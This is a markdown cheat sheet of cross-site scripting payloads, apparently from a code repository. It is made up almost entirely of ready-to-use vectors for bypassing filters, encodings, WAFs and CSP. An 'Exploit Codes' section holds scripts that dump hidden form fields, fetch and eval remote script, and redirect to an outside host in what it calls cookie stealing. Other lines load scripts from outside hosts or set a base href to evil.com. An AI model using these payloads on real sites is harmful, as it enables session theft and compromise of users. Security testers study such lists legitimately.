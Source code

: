 > Blind XSS

```https://xsshunter.com/```

---
> Encoding

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

---
> XML Based XSS

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

---
> Where :// is required after protocol

```javascript://%250aalert(1) ```

---
> XSS in email ID

```"\"><s>test"@gmail.com```

---
> alert, prompt, confirm is not allowed

```this[Object["keys"](this)[6]](1)```

```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<svg/onload=t=/aler/.source+/t/.source;window.onerror=window[t];throw+1;//```

```[][`filter`][`constructor`](`ale`.concat(`rt\x28`.concat`0\x29`))();//```

```[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164\50\61\51')() ```

```([_,_____,_,_,__,___]=(__=[])+{___:__},[______,_,________,____,,_________,_______,__,,,__________]=[!!_____]+!_____+_____._____)[___+=_____+__________+__+______+_+________+___+______+_____+_][___](_________+_______+____+_+______+'(-~_____)')(__)```

```([,?,,,,??]=[]+{},[???,????,?????,??????,,???????,????????,?????????,,,??????????]=[!!?]+!?+?.?)[??+=?+??????????+?????????+???+????+?????+??+???+?+????][??](???????+????????+??????+????+???+'`1`')```

---
> Simple bypasses

```<body onpageshow=alert(1)>```

```<k onsubmit=alert(1)>```

```<k oninput=alert(1)>```

```<style onload=alert(1)>```

```<html ontouchstart=alert(1)>MobileXSS```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<script/x>alert(1)</script/x>```

```<details ontoggle=alert()>```

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```

```<noembed><img title="</noembed><img src onerror=alert(21)>"></noembed>```

```<a/href=//0>```

```<script src=//14.rs>```

```<base href=//evil.com>```

```" onfocus=alert(1) autofocus```

---
> Obfuscated vectors

```<imG/sRc=l oNerrOr=(prompt)() x>```

```<d3"<"/onclick="1>[confirm``]"<">XSS```

```<svg/x=">"/onload=confirm()//```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

---
> Exploit Codes

```Hidden Field data ~```

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```Response on server ~```

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```Cookie stealing with JS protocol ~```

```javascript:void(a='//127.0.0.1');void(b=document.domain);void(c=a.concat(b));void(window.location.assign(c));```

---
> Javascript XSS

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'-alert()-'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

---
> CSP Bypassed

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1></script> <embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1)}//' allowscriptaccess=always>```

---
> Angular JS

```{{constructor.constructor('alert(1)')()}} ```

```<x ng-app>{{constructor.constructor('alert(1)')()}}```

---
> When Space and Slash doesnt work

```<svgonload=alert(1)>```

---
> Misc

```<script ~~~>confirm(1)</script ~~~>```

```window+=valueOf=alert(1)```

```[cookie].some(alert)```

```"accesskey=X onclick=alert(1)+```

```-alert(1)//\       (quoteless xss inside js context when param is reflecting 2 times in same line)```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```(alert)(1)```

```a=alert,a(1)	```

```[1].find(alert)```

```top["al"+"ert"](1)```

```top[/al/.source+/ert/.source](1)```

```al\u0065rt(1)```

```top['al\145rt'](1)```

```top[8680439..toString(30)](1)```

```<svg onload=alert&lpar;1&rpar;>```

```<svg onload=alert&#x28;1&#x29>```

```<svg onload=alert&#40;1&#41>```

```<svg onload=setInterval`alert\x28document.domain\x29`>```

```"><input type="submit" formaction="javascript&colon;this&lsqb;'a'&plus;'lert'&rsqb;`1`">```

```<body onfocus=alert(1)>```

```<object data=javascript:alert(1)>```

```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```

```<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>```

```<IFRAME SRC="javascript:alert('XSS');"></IFRAME>```

```%253cscript%253ealert(document.cookie)%253c/script%253e```

```<audio/onloadstart=alert(1) src>```

```%u0025%u0075%u0066%u0066%u0031%u0063%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065%u0061%u006c%u0065%u0072%u0074%u0028%u0018%u0058%u0053%u0053%u0019%u0029%u003b%u0025%u0075%u0066%u0066%u0031%u0063%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u0025%u0075%u0066%u0066%u0031%u0065```

```%uff1cscript%uff1ealert(1);%uff1c/script%uff1e```

```<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>                            akamai ghost wafbypass```

---
> Reference

```https://research.digitalinterruption.com/2018/12/18/a-deeper-look-into-xss-payloads/```
```https://portswigger.net/web-security/cross-site-scripting/cheat-sheet```
